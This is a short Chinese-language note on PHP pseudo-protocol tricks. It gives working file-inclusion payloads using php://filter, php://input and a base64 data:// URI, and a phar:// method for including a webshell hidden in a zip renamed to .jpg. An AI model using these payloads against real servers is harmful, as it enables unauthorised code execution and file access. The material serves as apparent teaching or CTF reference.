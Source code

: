 利用伪协议就可以绕过 php 的 is_file，然后读取文件


```php
$a = '123.php';
$b = 'php://filter/resource=123.php';
// boolean true
var_dump(is_file($a));
// boolean false
var_dump(is_file($b));
```

## php://input

写入文件， 数据在body那边传过去，可以用GET，也可以用 POST 传过去

```powershell
/test.php?file=php://input
```

将 user 用 body 传过去，注意 body 那边不是表单的形式，是直接把 body 的数据整个提交


```powershell
GET /?user=php://input HTTP/1.1
Host: 10.255.10.157:8087
Content-Length: 17

the user is admin
```

### data://

将 include 的文件流重定向到用户控制的输入流

```powershell
/test.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpO2V4aXQoKTsvLw==
```

可以用于控制 file_get_contents 的内容为用户输入的流


```php
$file=$_GET['file'];
$data = @file_get_contents($a,'r');
echo $data;
```

file_get_contens支持data协议，并且可以指定任意的域名，利用 data://yourname.auu/data/plain;base64,xxx 这样的 payload 绕过 php 的 parse_url 对域名和路径的限制。
## phar://

发现有一个文件上传功能，无法绕过，仅能上传jpg后缀的文件。与此同时，无法进行文件包含截断。allow_url_include=on 的状态下，就可以考虑phar伪协议绕过。

写一个shell.php文件，里面包含一句话木马。然后，压缩成xxx.zip。然后改名为xxx.jpg进行上传。最后使用phar进行包含
这里的路径为上传的 jpg 文件在服务器的路径

```powershell
/index.php?id=phar://路径/xxx.jpg/shell
```
